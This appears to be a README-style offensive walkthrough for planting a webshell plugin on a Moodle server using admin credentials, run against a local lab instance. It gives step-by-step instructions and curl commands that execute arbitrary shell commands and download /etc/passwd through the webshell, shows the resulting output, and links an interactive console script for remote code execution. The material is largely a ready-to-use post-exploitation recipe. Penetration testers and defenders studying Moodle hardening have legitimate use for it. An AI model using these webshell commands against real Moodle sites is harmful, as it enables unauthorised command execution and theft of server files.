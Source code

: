 # Moodle - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on Moodle.

## Exploitation

### Step 1.1: Upload the webshell plugin

Go to "Site administration --> Install plugins" page, at http://127.0.0.1:10080/admin/tool/installaddon/index.php, and click on "_Choose a file_":

![](./imgs/upload_and_install.png)

Then install the plugin [Moodle-webshell-plugin](https://github.com/p0dalirius/Moodle-webshell-plugin/), providing an API for Remote Code Execution!

### Step 1.2: Plugin successfully uploaded

Press the buttons on the various pages until you get a message stating that your plugin is successfully uploaded:

![](./imgs/plugin_successfully_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./imgs/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://raw.githubusercontent.com/p0dalirius/Moodle-webshell-plugin/master/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169657310-dee340d6-19c0-4192-bcd1-ac8b9b29b731.mp4

## References
 - https://github.com/p0dalirius/Moodle-webshell-plugin/
